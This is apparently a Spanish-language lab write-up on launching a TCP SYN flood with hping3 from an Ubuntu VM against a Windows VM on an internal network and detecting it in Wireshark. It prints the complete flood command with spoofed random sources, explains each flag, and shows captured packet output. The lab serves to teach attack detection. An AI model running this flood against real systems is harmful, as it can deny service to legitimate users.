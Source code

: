 Este laboratorio cuenta con dos máquina virtuales:
- Windows 10 con configuración de la red: red interna. IP 10.10.10.5
- Ubuntu 23.10 con configuración de la red: red interna. IP: 10.10.10.3

Comprobamos que las máquina virtuales se vean haciendo un ping:
![](capturas/ping.png)
![](capturas/ping.win.png)


En la máquina Windows:
- No hace falta desactivar el antivirus de Windows. Funciona igualmente.
- Abrimor Wireshark  para snifar el tráfico.

En la máquina Linux instalamos hping3 y lanzamos el ataque unos segundos:
```
sudo apt-get install hping3
sudo hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 10.10.10.5
```
Este comando está diseñado para enviar una gran cantidad de solicitudes SYN TCP al puerto 80 de la dirección IP 10.10.10.5, utilizando direcciones IP de origen aleatorias. Este tipo de ataque se conoce como un ataque de inundación SYN y puede utilizarse para sobrecargar un servidor objetivo, potencialmente causando una denegación de servicio para los usuarios legítimos.
-c 15000: Envía 15000 paquetes.
-d 120: Tamaño de cada paquete de 120 bytes.
-S: Establece el bit de SYN en los paquetes TCP, lo que es común en el establecimiento de una conexión TCP.
-w 64: Tamaño de ventana TCP de 64.
-p 80: Número de puerto de destino, 80 es el puerto HTTP estándar.
--flood: Envía paquetes lo más rápido posible sin esperar respuestas.
--rand-source: Utiliza direcciones IP de origen aleatorias.
10.10.10.5: La dirección IP del objetivo del ataque.
![](capturas/Dos-1.png)


Comprobamos en Wireshark el ataque:
![](capturas/wireshark-Dos-Attack.png)

```
117	53.374939	113.237.38.92	10.10.10.5	TCP	174	1528 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
118	53.374939	72.210.92.205	10.10.10.5	TCP	174	1529 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
119	53.374939	44.242.130.118	10.10.10.5	TCP	174	1530 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
120	53.374939	33.240.239.31	10.10.10.5	TCP	174	1531 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
121	53.374939	203.148.209.97	10.10.10.5	TCP	174	1532 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
```

Dentro de Wireshark --> Estadísticas --> Conversaciones --> Vemos en escasos segundos la cantidad de información que ha recibido:
![](capturas/TCP-syn-flood-attack-conversations.png)


Dentro de Wireshark --> Estadísitcas --> Jerarqía de Protocolo --> Examinamos el valor estadístico de cada protocolo. La captura de pantalla a continuación muestra un volumen inusualmente alto de paquetes TCP, lo que indica fuertemente un ataque de inundación TCP SYN.
1[](capturas/jerarquia-protocolo.png)
